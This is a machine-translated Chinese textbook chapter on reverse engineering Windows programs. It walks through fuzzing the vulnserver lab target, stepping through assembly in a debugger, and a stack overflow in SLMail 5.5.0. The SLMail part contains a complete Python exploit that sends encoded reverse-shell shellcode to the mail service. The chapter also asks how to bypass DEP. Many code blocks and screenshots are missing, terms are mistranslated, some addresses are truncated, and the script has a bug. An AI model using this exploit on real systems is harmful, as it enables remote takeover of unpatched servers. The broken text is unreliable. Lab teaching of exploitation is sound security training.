# 十二、逆向工程 Windows 应用

在本章中，我们将了解如何使用 Windows 应用执行逆向工程。本章将介绍以下主题：

*   模糊 Windows 应用
*   窗口和组件
*   Windows 和堆栈缓冲区溢出
*   Windows 和堆缓冲区溢出
*   Windows 中的格式化字符串错误

# 调试器

让我们来看看本章将要为 Windows 覆盖的调试器：

*   **免疫调试器**：这是在 Windows 环境中运行并调试 Windows 应用的最著名的调试器之一。可从[下载 https://www.immunityinc.com/products/debugger/](https://www.immunityinc.com/products/debugger/) 并作为可直接运行的可执行文件提供：



*   **奥利调试器**：可以从[下载奥利调试器 http://www.ollydbg.de/](http://www.ollydbg.de/)



# 模糊 Windows 应用

正如我们在前一章中所讨论的，模糊化是一种用于发现应用中的错误的技术，当应用遇到应用没有预料到的输入时，这些错误会导致应用崩溃。

为了开始本练习，让我们设置 VirtualBox，并使用 Windows 作为操作系统。在实验室 Windows 7 机器中，让我们继续安装名为**vulnserver**的易受攻击软件。如果您在谷歌上搜索`vulnserver download`，您将获得指向易受攻击服务器的链接。

现在让我们在 VirtualBox 中加载`vulnserver`，并按如下所示运行它：



现在，让我们尝试将 Linux 主机连接到 Windows 计算机，以连接到`vul`服务器。

我们可以用于模糊化的工具是 zzuf，它可以用于基于 Linux 的系统。要检查该工具是否可用，请运行以下命令：


让我们看看当我们输入一个长字符串时它是否崩溃。我们可以通过将`aaaaaa`字符串传递给代码来检查这一点，并且可以看到它没有中断。另一种方法是运行`help`命令，在这里我们传递`help`命令并返回到终端，这样我们就可以在循环中递归地执行它。如下所示：


需要注意的是，如果我们希望执行带有`echo`的命令，我们可以将该命令放在反勾号`<command>`中，该命令的输出将附加到`echo`打印字符串中，例如：`echo 'hello' `python -c 'print "a"*5'``。

我们将使用此技术使目标服务器崩溃，因为执行的命令的输出将附加到`echo`的输出中，`echo`的输出通过 Netcat 作为服务器的输入。我们将执行以下代码，以查看易受攻击的服务器是否会因很长的字符串而崩溃：


我们可以清楚地看到，在执行前面的命令时，程序会打印`UNKNOWN COMMAND`。基本上，这里发生的事情是`aaaaaa`在多条线路上被拆分，输入被发送到 Netcat，如下所示：`echo hello aaaaaaaaaaaaaaaaaaa | nc …`。在下一行中，剩余的`aaaa`将被打印，这将抛出`UNKNOWN COMMAND`错误。

让我们尝试将打印输出重定向到某个文本文件，然后使用`zzuf`来实际崩溃或模糊目标易受攻击的软件。

Zzuf 是一种将大字符串作为输入的工具，如`aaaaaaaaaaaaaaaaaaaaaaaaa`。它在字符串中的不同位置随机放置特殊字符，并生成一个输出，如`?aaaa@??aaaaaaaaaaa$$`。我们可以指定应修改输入的百分比，例如：


让我们对生成的文件`fuzz.txt`使用 zzuf，看看结果是什么：


我们可以指定以下百分比：


请注意，易受攻击的不是`vul`服务器的`HELP`命令，而是`GMON ./:/`命令。我们不希望 zzuf 工具更改命令的`GMON ./:/`部分，因此我们用`zzuf`指定`-b`（字节选项），告诉它跳过最初的 12 个字节，如以下屏幕截图所示：


让我们尝试将此文件内容作为输入提供给`vul`服务器，看看会发生什么：


可以看出，zzuf 工具产生的输出使另一端的`vul`服务器崩溃。请注意，zzuf 工具生成的特殊字符是众所周知的攻击负载字符，通常用于模糊化：



现在我们将了解如何使用脚本来尝试使`vul`服务器崩溃。我们还将在 Windows 机器上使用 Olly 调试器，以查看代码的确切中断位置。

以管理员身份启动 Olly 调试器，如下所示：



现在，我们将使用 Olly 调试器连接正在运行的服务器。转至**文件****附**。这将打开所有正在运行的进程。我们必须转到 vulnserver 并连接它。一旦我们点击**附件**，我们会得到以下信息：



现在，让我们回到 Linux 机器并启动我们创建的脚本：


执行`python fuzz.py`命令的那一刻，我们在 Python 控制台上看不到任何东西。

但是，在 Olly 调试器中的附加进程的右下角，我们看到一条黄色消息，上面写着**暂停**，这意味着附加进程/服务器的执行已暂停：



让我们点击播放按钮。这将执行一些代码并在另一个断点处暂停：



需要注意的是，当写入位置`017Dxxxx`时，屏幕底部会显示`Access violation`。这意味着遇到异常，程序崩溃：


# 窗口和组件

在本节中，我们将学习汇编语言。我们的目标是把 C 代码翻译成汇编语言，看看会发生什么。

下面是我们将加载并使用的示例 C 代码，以了解汇编语言：



我们将在免疫调试器中运行这段代码，将其编译为一个名为`Bufferoverflow.exe`的文件。让我们先用免疫调试器打开它：


请注意，在右上角，我们有一个**寄存器**部分。第一个寄存器`EAX`是累加器。在计算机的 CPU 中，累加器是一个寄存器，中间算术和逻辑结果存储在其中。在左上角，我们有实际的汇编代码，而在左下角，我们得到程序使用的内存转储。右下角包含我们正在检查的程序的堆栈区域。

如果我们向下滚动到位置`00401290`，我们可以看到`PUSH`命令。我们还可以看到 ASCII 字符串`Functionfunction`，然后是整数十六进制值。这是相反的顺序，因为这里的处理器是一个英特尔处理器，使用小端表示法，低阶字节排在第一位：


前面的屏幕截图显示了我们的`functionFunction`函数的堆栈/代码部分，该段的每条语句都代表了我们拥有的原始代码的一条语句。

如果我们再向下滚动一点，我们将看到实际的 main 方法和从那里进行的函数调用。这将在下面显示。突出显示的区域是对实际`functionFunction`函数的函数调用：


主函数返回`0`，这是当我们将`0`移动到 EAX 寄存器时，汇编语言显示的内容。类似地，在上一个屏幕截图中，我们将值`1`移动到 EAX。

现在让我们转到**调试**并点击**参数**。从这里开始，我们将为汇编代码提供命令行参数，以便在调试器中运行它时不会出现任何错误：



然后，我们需要设置某些断点，以便更彻底地理解调试器、程序控制和序列流。我们将在 main 方法的开头放置一个断点，如下所示的代码所示：


断点在以下屏幕截图中高亮显示：



请注意，一旦我们运行应用，当代码到达这一行时，代码实际上停止了。这就是断点的含义：


在屏幕的右下角，我们看到的区域是堆栈区域。正如我们所知，每个方法都有一个专用的执行区域，其中存储了所有本地参数，并且执行了代码。这是我们定义为堆栈的区域。堆栈的第一条语句指向整个方法块成功执行后程序控件应该返回的位置。请注意，我们在屏幕顶部有四个选项，分别是**跨过**、**跨过**、**跟踪到**和**跟踪到**。我们将在前进中探索这些选项。让我们继续调用步骤，看看堆栈和调试器会发生什么：


调用 step-into 函数实际上将控件移到调试器的下一行。当这种情况发生时，不同的值被添加到程序变量中。请注意，以下行将调用`functionFunction`函数，如指定：


请注意，从主函数到`functionFunction`函数的函数调用将发生的前一个地址来自主函数的`004012EA`内存地址。调用函数时，分配给`functionFunction`的堆栈必须包含返回地址，这样一旦完成执行，它就知道应该返回的确切位置：


在右边可以看到，EIP 寄存器保存着`00401EA`地址。请注意，在右下角，语句本身的地址是堆栈上的`0060FD0`。让我们点击下一步，看看会发生什么：


可以看出，函数被调用的那一刻，它的堆栈被更新，并表示代码应该在执行后返回到`004012EF`地址。`004012EF`地址是主功能`functionFunction`的下一个指令地址。请注意，由于 IP 包含要执行的下一条指令的地址，因此它现在包含`00401290`地址，这是`Functionfunction`函数的起始地址。一旦完成执行，堆栈顶部的内容将弹出（`004012EF`，IP 将使用此地址更新，以便从最后停止的位置检索程序执行。

单击 next 两次后，我们会看到第一条语句，将整数值分配给`functionFunction`方法中的变量，将被执行。最后，当我们点击或到达 return 语句或`functionFunction`方法的末尾时，我们将看到堆栈顶部将包含如下屏幕截图所示的返回地址：


我们可以点击 next，直到程序退出 main 方法。这就是程序在正常情况下的执行方式，我们称之为行为执行。在下一节中，我们将看到如何使程序行为不端。

让我们看看当我们通过提供超过预期长度的参数来溢出缓冲区时，在汇编语言的代码级别会发生什么。我们将在以下代码中添加九个以上的字符：



我们现在将把断点保留在 main 方法中，就像我们之前所做的那样。我们将在运行代码时到达断点，如下所示：


在下一行中，我们将把值`112233`复制到局部变量。然后我们将调用`Functionfunction`函数，当我们对提供的参数执行`strcpy`时，`bufferoverflow`实际发生在`10`大小的本地缓冲区：


如前面的屏幕截图所示，我们传递的字符串被放置在寄存器中，并将被传递到`functionFunction`。突出显示的行后面的行是实际的函数调用：


在突出显示的行中可以看到，正在执行的操作是`strcpy(Localstring2,param)`，这意味着 EAX 寄存器的值将被移动到位置`SS:[EBP +8]`。当我们执行前面的命令时，我们会注意到我们给出的大值将被加载到堆栈中。我们可以在以下屏幕截图的右下角看到：



现在，将要执行的下一行是当前高亮显示的函数之后的`strcpy`函数。我们可以在右下角看到`strcpy`函数的堆栈：


`strcpy`函数中有几个缓冲区和内存位置。当我们将值写入长度为 10 的缓冲区时，缓冲区溢出，剩余的值溢出并写入堆栈的其他内存位置。换句话说，堆栈中的其他内存位置会被溢出的内容覆盖。在这种情况下，包含堆栈返回地址的内存位置（一旦执行完成）将被覆盖，因此代码将以异常结束。这是幕后实际发生的情况，如下面的屏幕截图所示。在屏幕截图的底部，我们可以看到访问冲突异常描述了这一点：


# 利用 Windows 中的缓冲区溢出

SLMail 5.5.0 邮件服务器软件中存在已知的缓冲区溢出漏洞。让我们下载应用（从以下 URL:[https://slmail.software.informer.com/5.5/ 双击`exe`安装程序，在 Windows 中安装](https://slmail.software.informer.com/5.5/)。安装后，在 Windows 7 虚拟机中运行它，如下所示：



现在，让我们将正在运行的程序附加到免疫调试器，并使用简单的 Python fuzzer 使程序崩溃，如下所示：



下面的屏幕截图描述了我们点击**附加**后加载的代码：


让我们使用一个用 Python 编写的简单模糊器来尝试破解此代码：



现在，让我们运行代码以查看它在何处中断电子邮件应用以及崩溃时的缓冲区值：


可以看出，在字节号`2700`和`2900`之间的某个地方发生了访问冲突异常。此时，EIP 指令寄存器的值被传递的字符串`A`覆盖，该字符串的十六进制值为`41414141`。

为了让我们计算出`2900`字节有效负载内的确切位置，我们将使用 Metasploit`generate.rb`模块，如下所示：


让我们将这个唯一生成的字符串放在一段 Python 代码中，以便为我们重新运行该漏洞，以便我们可以在崩溃时看到 EIP 中的唯一值：



让我们在 Windows 中重新启动服务，并再次将其连接到调试器。最后，我们将运行 Python 代码来利用它，如下所示：


可以清楚地看到，在崩溃时，EIP 寄存器中的值为`39694438`。这将是一个地址，可以告诉我们有效载荷的偏移量，其计算如下所示：


可以看出，导致碰撞的确切偏移量恰好位于`2606`。在崩溃时，所有传递的值都存储在 ESP 寄存器中，这使得 ESP 成为保持有效负载的潜在候选。如果我们发送一个高达 2600 字节的有效负载，然后尝试在 EIP 中注入一条指令，跳转到 ESP，那么将执行的将是有效负载。有两种方法可以做到这一点。我们知道 EIP 保存下一条要执行的指令的地址，可以看出，崩溃时 ESP 寄存器的地址是`01C8A128`。直觉上，我们想到的想法是将这个地址放在 2600 字节之后，但由于**地址空间布局随机化**（**ASLR**），这是一个针对操作系统的内存保护过程，通过随机将系统可执行文件加载到内存中的位置来防止缓冲区溢出攻击，但这种简单的技术不起作用。

相反，让我们寻找一个内存地址，该地址将包含一条指令，如 JMP ESP。由于该位置位于堆栈之外，因此每当程序崩溃时，它不会受到 ASLR 的影响。我们将使用`mona`脚本，该脚本作为 Python 模块附带一个免疫调试器，用于在整个 DLL 过程中搜索任何指令，在我们的例子中，该脚本相当于`jmp esp`的十六进制。mona 脚本可从[下载 https://github.com/corelan/mona](https://github.com/corelan/mona) ，可直接放置在 Windows 内的以下路径：`C:\Program Files\Immunity Inc\Immunity Debugger\PyCommands`。

让我们使用 Metasploit Ruby 脚本计算`jmp esp`的十六进制等价物，如下所示：


因此，我们将在免疫调试器和`mona`脚本中搜索`\xff\xe4`，以找到`jmp`位置，如下所示：


我们有很多点击率，但让我们看第一个，那就是`0x5f4a358f`。下一步是生成利用代码，在机器上为我们提供一个反向 shell，并将该利用代码放在自定义 Python 脚本中，以将负载发送到服务器。需要注意的是，在生成攻击代码时，我们将对其进行编码并转义某些错误字符，以确保其正常工作：


生成前面的有效负载后，让我们创建一个 Python 脚本，该脚本将导致该漏洞。我们将通过`mona`脚本使用之前发现的`jmp esp`位置。还应注意，由于对有效载荷进行了编码，因此将使用几个字节进行解码，并且将使用几个字节进行填充：

```
#!/usr/bin/python    
import socket        
buffer=["A"]    
counter=100
buf =  ""
buf += "\xd9\xc8\xbd\xad\x9f\x5d\x89\xd9\x74\x24\xf4\x5a\x33"
buf += "\xc9\xb1\x52\x31\x6a\x17\x03\x6a\x17\x83\x6f\x9b\xbf"
buf += "\x7c\x93\x4c\xbd\x7f\x6b\x8d\xa2\xf6\x8e\xbc\xe2\x6d"
buf += "\xdb\xef\xd2\xe6\x89\x03\x98\xab\x39\x97\xec\x63\x4e"
buf += "\x10\x5a\x52\x61\xa1\xf7\xa6\xe0\x21\x0a\xfb\xc2\x18"
buf += "\xc5\x0e\x03\x5c\x38\xe2\x51\x35\x36\x51\x45\x32\x02"
buf += "\x6a\xee\x08\x82\xea\x13\xd8\xa5\xdb\x82\x52\xfc\xfb"
buf += "\x25\xb6\x74\xb2\x3d\xdb\xb1\x0c\xb6\x2f\x4d\x8f\x1e"
buf += "\x7e\xae\x3c\x5f\x4e\x5d\x3c\x98\x69\xbe\x4b\xd0\x89"
buf += "\x43\x4c\x27\xf3\x9f\xd9\xb3\x53\x6b\x79\x1f\x65\xb8"
buf += "\x1c\xd4\x69\x75\x6a\xb2\x6d\x88\xbf\xc9\x8a\x01\x3e"
buf += "\x1d\x1b\x51\x65\xb9\x47\x01\x04\x98\x2d\xe4\x39\xfa"
buf += "\x8d\x59\x9c\x71\x23\x8d\xad\xd8\x2c\x62\x9c\xe2\xac"
buf += "\xec\x97\x91\x9e\xb3\x03\x3d\x93\x3c\x8a\xba\xd4\x16"
buf += "\x6a\x54\x2b\x99\x8b\x7d\xe8\xcd\xdb\x15\xd9\x6d\xb0"
buf += "\xe5\xe6\xbb\x17\xb5\x48\x14\xd8\x65\x29\xc4\xb0\x6f"
buf += "\xa6\x3b\xa0\x90\x6c\x54\x4b\x6b\xe7\x9b\x24\x89\x67"
buf += "\x73\x37\x6d\x99\xd8\xbe\x8b\xf3\xf0\x96\x04\x6c\x68"
buf += "\xb3\xde\x0d\x75\x69\x9b\x0e\xfd\x9e\x5c\xc0\xf6\xeb"
buf += "\x4e\xb5\xf6\xa1\x2c\x10\x08\x1c\x58\xfe\x9b\xfb\x98"
buf += "\x89\x87\x53\xcf\xde\x76\xaa\x85\xf2\x21\x04\xbb\x0e"
buf += "\xb7\x6f\x7f\xd5\x04\x71\x7e\x98\x31\x55\x90\x64\xb9"
buf += "\xd1\xc4\x38\xec\x8f\xb2\xfe\x46\x7e\x6c\xa9\x35\x28"
buf += "\xf8\x2c\x76\xeb\x7e\x31\x53\x9d\x9e\x80\x0a\xd8\xa1"
buf += "\x2d\xdb\xec\xda\x53\x7b\x12\x31\xd0\x8b\x59\x1b\x71"
buf += "\x04\x04\xce\xc3\x49\xb7\x25\x07\x74\x34\xcf\xf8\x83"
buf += "\x24\xba\xfd\xc8\xe2\x57\x8c\x41\x87\x57\x23\x61\x82"
buffer='A'*2606 + '\x8f\x35\x4a\x5f' + "\x90"*8 +buf

if 1:    
   print"Fuzzing PASS with %s bytes" %    len(string)    
   s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)    
   connect=s.connect(('192.168.250.158',110))    
   data=s.recv(1024)    
   s.send('USER root \r\n')        
   data=s.recv(1024)
   print str(data)    
   s.send('PASS    ' + buffer + '\r\n')    
   #data=s.recv(1024)
   #print str(data)    
   print "done"
   #s.send('QUIT\r\n')        
   s.close()    

```

现在，当我们将服务或进程的运行实例附加到调试器并执行我们创建的脚本时，我们从具有`bufferoverflow`的受害机器获得反向 shell。这里描述了这一点：


这就是我们如何利用 Windows 中的缓冲区溢出漏洞的方法。

如果我们继续在本机 Windows 环境中编译程序（在前一章的堆缓冲区溢出部分中给出），并使用长参数运行它，那么我们就可以利用 Windows 中的堆缓冲区溢出。

# 总结

我们在这里演示了与前一章相同的步骤，但是在 Windows 环境中。Windows 和 Linux 环境中的概念基本相同，但堆栈和寄存器的实现可能略有不同。因此，精通这两种环境中的开发非常重要。在下一章中，我们将在 Python 和 Ruby 中开发漏洞，以扩展 Metasploit 框架的功能。

# 问题

1.  我们如何自动利用 Windows 中的缓冲区溢出漏洞？
2.  我们可以做些什么来避免操作系统强加的高级保护，例如在 Windows 中禁用堆栈上的代码执行？
3.  为什么 Windows 和 Red Hat 中的寄存器不同？

# 进一步阅读

*   堆栈缓冲区溢出 SLmail:[https://www.exploit-db.com/exploits/638/](https://www.exploit-db.com/exploits/638/)
*   堆缓冲区溢出：[https://www.win.tue.nl/~aeb/Windows/hh/hh-11.html](https://www.win.tue.nl/~aeb/Windows/hh/hh-11.html)
*   字符串格式漏洞：[https://null-byte.wonderhowto.com/how-to/security-oriented-c-tutorial-0x14-format-string-vulnerability-part-i-buffer-overflows-nasty-little-brother-0167254/](https://null-byte.wonderhowto.com/how-to/security-oriented-c-tutorial-0x14-format-string-vulnerability-part-i-buffer-overflows-nasty-little-brother-0167254/)